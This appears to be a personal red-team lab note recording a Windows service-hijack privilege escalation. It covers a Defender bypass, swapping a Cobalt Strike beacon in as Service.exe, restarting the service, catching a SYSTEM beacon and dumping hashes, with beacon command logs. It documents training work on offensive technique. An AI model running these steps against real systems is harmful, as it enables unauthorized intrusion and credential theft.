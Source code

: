 Windows defender bypassed, hit `run`  and should be good to go.
![[Pasted image 20231107132050.png]]
made a copy of and renamed `tcp-localonly_x64.exe` to `Service.exe`
![[Pasted image 20231107135605.png]]
uploaded file through `cobaltstrike`
![[Pasted image 20231107135821.png]]
ran `run sc query VulnService1` to see if the service is stoppable
```powershell
[11/07 18:59:03] [*] Tasked beacon to run: sc query VulnService1
[11/07 18:59:03] [+] host called home, sent: 39 bytes
[11/07 18:59:03] [+] received output:

SERVICE_NAME: VulnService1 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

```
going to reboot the device `shell shutdown /r` in cobaltstrike
![[Pasted image 20231107140120.png]]
# System Privilege Escalation.
able to catch the beacon as  SYSTEM while utilizing the `tcp-localonly_x64.exe` however it dies almost immediately , was still able to dump hashes. Updating the [[Penetration Testing v2/crto_Defender/access_Tracker]]
- access tracker updated.

*essentially whats going on is the system was restarted and the `VulnService1` was in a `STOPPED` state.*
started the service by using the command `run sc start VulnService1`
```powershell
[11/07 19:38:42] beacon> run sc query VulnService1
[11/07 19:38:43] [*] Tasked beacon to run: sc query VulnService1
[11/07 19:38:43] [+] host called home, sent: 39 bytes
[11/07 19:38:43] [+] received output:

SERVICE_NAME: VulnService1 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```
ran `run netstat -anp tcp` to check to see if the beacon port is running, it was on `4444`
```powershell
[11/07 19:55:04] beacon> run netstat -anp tcp
[11/07 19:55:04] [*] Tasked beacon to run: netstat -anp tcp
[11/07 19:55:06] [+] host called home, sent: 34 bytes
[11/07 19:55:06] [+] received output:

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING
  TCP    0.0.0.0:3389           0.0.0.0:0              LISTENING
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING
```